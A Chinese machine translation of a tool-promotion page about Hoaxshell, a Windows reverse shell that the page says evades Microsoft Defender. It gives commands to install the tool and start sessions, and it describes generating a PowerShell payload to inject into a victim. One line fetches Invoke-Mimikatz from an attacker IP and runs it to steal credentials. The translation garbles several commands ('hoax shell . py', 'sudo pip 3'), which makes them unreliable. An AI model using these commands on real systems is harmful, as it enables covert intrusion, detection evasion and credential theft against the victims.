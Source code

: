# Hoaxshell:一个非常规的 Windows 反向外壳，目前未被微软 Defender 检测到

> 原文：<https://kalilinuxtutorials.com/hoaxshell/>

[![](img/080ac25ff56b648a57cf70d610b64086.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgZ7CVzSUt422s1nDVULD1yIZwtfpRERSTY7NWTboBD2RzNnwVEJexa7geoo5gYAlqMFGDUYlfsdKavJxrcrHBSBm9nOIoBn4WzeOp5oV-tLnl8CjcaR-XVSLQ9Aq1XdbSImZY8TZPl3SYwtkZxEaI7z35t8BMSBSzmvx9YrofERi4_dFSBFTjzFU7k/s470/Hoaxshell-An-Unconventional-Windows-Reverse-Shell-Currently-Undetected-By%20(2)%20(1).png)

Hoaxshell 是一个非常规的 Windows 反向外壳，目前未被 Microsoft Defender 和其他反病毒解决方案检测到，因为它仅基于 http(s)流量。该工具易于使用，它生成自己的 PowerShell 负载，并支持加密(ssl)。

到目前为止，它已经在完全更新的 **Windows 11 Enterprise** 和 **Windows 10 Pro** 机器上进行了测试(见视频和截图)。

## 装置

git 克隆 https://github.com/t3l3machus/hoaxshell
CD。/hoax shell
sudo pip 3 install-r requirements . txt
chmod+x hoax shell . py

## 使用

**重要提示**:作为一种避免检测的方法，每当脚本启动时，hoaxshell 会自动为进程中使用的会话 id、URL 路径和自定义 http 头的名称生成随机值。生成的有效负载将仅对为其生成的实例有效。使用`**-g**`选项绕过这种行为，重新建立一个活动会话，或者使用 hoaxshell 的新实例重用过去生成的有效负载。

#### 【http 上的基本外壳会话

**sudo python 3 hoax shell . py-s**

当您运行 hoaxshell 时，它会生成自己的 PowerShell 有效负载，供您复制并注入到受害者上。默认情况下，为了方便起见，有效负载是 base64 编码的。如果您需要原始有效负载，请执行“rawpayload”提示符命令或使用`**-r**`参数启动 hoaxshell。在受害者上执行有效负载后，您将能够对其运行 PowerShell 命令。

#### 加密外壳会话(https):

**生成自签名证书:
OpenSSL req-x509-new key RSA:2048-keyut key.pem-out cert.pem-days 365
传递 cert . PEM 和 key . PEM 作为参数:
sudo python 3 hoax shell . py-s-c-k**

生成的 PowerShell 有效负载的长度会更长，因为有一个额外的代码块禁用了 ssl 证书验证。

#### 抓取会话模式

如果您意外关闭终端、断电或其他情况，您可以在抓取会话模式下启动 hoaxshell，它将尝试重新建立会话，假设有效负载仍在受害机器上运行。

s**Udo python 3 hoaxshell . py-s-g**

## 限制

如果您执行启动交互式会话的命令，shell 将会挂起。示例:

**这个命令将成功执行，您将不会有任何问题:
powershell 回显“这是一个测试”
但是这个命令将在 hoaxshell 会话中打开一个交互式会话，并将导致 shell 挂起:
powershell
以同样的方式，您执行这个命令不会有任何问题:
cmd /c dir /a
但是这会导致您的 hoaxshell 挂起:
cmd.exe**

因此，如果您想通过 hoaxshell 运行 mimikatz，您需要调用以下命令:

**霍克斯谢尔> IEX(New-Object Net。WebClient)。download string(' http://192 . 168 . 0 . 13:4443/Invoke-mimikatz . PS1 ')；Invoke-Mimikatz -Command 的" " PRIVILEGE::Debug"'**

长话短说，您必须小心不要运行在 hoaxshell powershell 上下文中启动交互式会话的 exe 或 cmd。

[**Download**](https://github.com/t3l3machus/hoaxshell)
